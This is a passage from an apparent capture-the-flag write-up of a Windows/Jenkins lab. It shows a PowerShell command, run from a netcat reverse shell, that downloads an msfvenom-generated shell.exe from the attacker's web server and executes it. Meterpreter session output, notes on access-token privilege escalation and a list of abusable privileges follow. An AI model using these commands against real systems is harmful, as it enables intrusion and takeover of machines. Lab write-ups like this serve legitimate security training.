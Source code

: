 Create a local python web server using
{% capture code %}{% raw %}python -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...{% endraw %}{% endcapture %} {% include code.html code=code %}

From the `netcat` listener reverse shell, download the `shell.exe` file which was generated using `msfvenom`.
{% capture code %}{% raw %}powershell "(New-Object System.Net.WebClient).Downloadfile('http://<source-ip>:8080/shell.exe','shell.exe')"{% endraw %}{% endcapture %} {% include code.html code=code %}

Run the exploit binary using `start-process shell.exe`. There will be a session opened in `meterpreter`.
{% capture code %}{% raw %}[*] Sending stage (176195 bytes) to 10.10.50.154
[*] Meterpreter session 1 opened (10.10.192.53:443 -> 10.10.50.154:49326) at 2021-04-28 07:37:54 +0100
meterpreter >{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Privilege Escalation

### References
- [Windows access token reference](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens){:target="_blank"}
- [Abusing Token Privileges For LPE](https://www.exploit-db.com/papers/42556){:target="_blank"}


- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

Different levels of impersonation token
- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Commonly abused privileges
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege


From the `meterpreter` session in `msfconsole`, check the current privileges.
{% capture code %}{% raw %}PS C:\Program Files (x86)\Jenkins\workspace\project> whoami /priv{% endraw %}{% endcapture %} {% include code.html code=code %}
